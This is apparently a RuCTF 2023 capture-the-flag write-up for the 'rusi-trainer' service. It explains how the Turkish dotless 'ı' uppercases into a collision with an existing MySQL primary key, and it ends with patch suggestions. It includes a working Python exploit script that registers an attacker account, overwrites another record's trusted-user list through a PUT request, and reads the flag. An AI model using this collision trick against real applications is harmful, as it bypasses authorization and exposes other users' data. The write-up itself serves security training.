 # RuCTF 2023 | rusi-trainer

## Description

This service stores the fighting techniques of the ancient Rus. (Udar)

- Service use name as primary key in database MySQL.
- The same request to the database was used both to create and update actions.
- Before db execute it try to get object from db using name from input as is.
- If it does not exist, a database query is executed
- If it exists and the user is the object's creator, a query is made to the database, causing updates to occur.
- In every insert into the database, the key (name) is converted to uppercase using a trigger.

## Vulnerability

Vulnerability in service is unexpected collision in primary keys on insert.

You need to choose a name so that when you try to retrieve the object by name, it will not be in the database. 

But at the same time, when the insert query executed the trigger convert name to upper case, a conflict occurs, and we updated an already existing record in the database.

So you need a symbol that is converted into another symbol by the uppercase function.

That symbol is: `ı` - turkish letter

```javascript
'ı' == 'i' // false
```
```javascript
'ı'.toUpperCase() == 'i'.toUpperCase() // true
```

```javascript
'ı'.toUpperCase().toLowerCase() == 'i'.toUpperCase().toLowerCase() // true
```



## Exploitation

In every name of Udar (this is flag id) you can find `i` symbol. 
So you need to replace it with `ı` and make `PUT` request to update `trustedRusi` (add your hacker user to the trusted list).
This will make it possible to read the flag using a regular get request.

[Sploit](/sploits/rusi-trainer/rusi-trainer.sploit.py)
```python3
hacker_username = f'hac3r{uuid.uuid4()}'
hacker_password = f'hah-{uuid.uuid4()}'
requests.post(api_url + 'auth/register/', json={
    'username': hacker_username,
    'password': hacker_password
})
hacker_token = requests.post(api_url + 'auth/login/', json={
    'username': hacker_username,
    'password': hacker_password
}).json()['accessToken']
hacker_id = requests.get(f'{api_url}users/{urllib.parse.quote_plus(hacker_username)}/', headers={
    'x-access-token': hacker_token
}).json()['id']
name = PUBLIC_FLAG_ID.upper().lower()
if 'i' in name:
    name = name.replace('i', 'ı')
else:
    raise RuntimeError('No "i" symbol in FLAG_ID')
requests.put(f'{api_url}udar/', headers={'x-access-token': hacker_token}, json={
    'name': base69.encodeString(name),
    'trustedRusi': [hacker_id],
    'phonk': 'ULTRA HARD 23',
    'map': 1,
    'description': 'oldone'
})
result = requests.get(f'{api_url}udar/{PUBLIC_FLAG_ID.upper()}/',
                      headers={'x-access-token': hacker_token}).json()
print(result['phonk']) # There flag
```

## Patch

There many ways to fix it. Use any of that

- Go to upper case name from input before do get request
- Use two different requests to database for insert and update
- Replace MySQL to MariaDB (in MySQL `'ı' = 'i' // False'` but in MariaDB `'ı' = 'i' // True'` )




